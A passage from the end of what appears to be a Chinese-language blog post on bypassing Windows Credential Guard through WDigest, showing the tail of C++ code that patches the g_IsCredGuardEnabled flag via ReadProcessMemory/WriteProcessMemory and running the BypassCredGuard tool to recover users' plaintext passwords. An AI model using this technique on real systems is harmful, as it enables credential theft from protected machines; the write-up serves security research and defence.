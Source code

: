 ```c++
			}
			else
				wprintf(L"[-] Failed to WriteProcessMemory for g_IsCredGuardEnabled.\n");
		}
		else
			wprintf(L"[-] Failed to ReadProcessMemory for g_IsCredGuardEnabled\n");
	}
	return status;
}
```

## Let’s see it in action

在启用了 Credential Guard 保护的系统上运行我们的 [BypassCredGuard](https://github.com/wh0Nsq/BypassCredGuard)，当用户输入用户名密码重新进行身份验证时，我们重新得到了他的明文密码，如下图所示。

```console
C:\Users\Administrator\Desktop> BypassCredGuard.exe
```

![](/assets/posts/2023-01-18-revisiting-a-credential-guard-bypass-from-wdigest/image-20230118230536164.png)
## Ending......
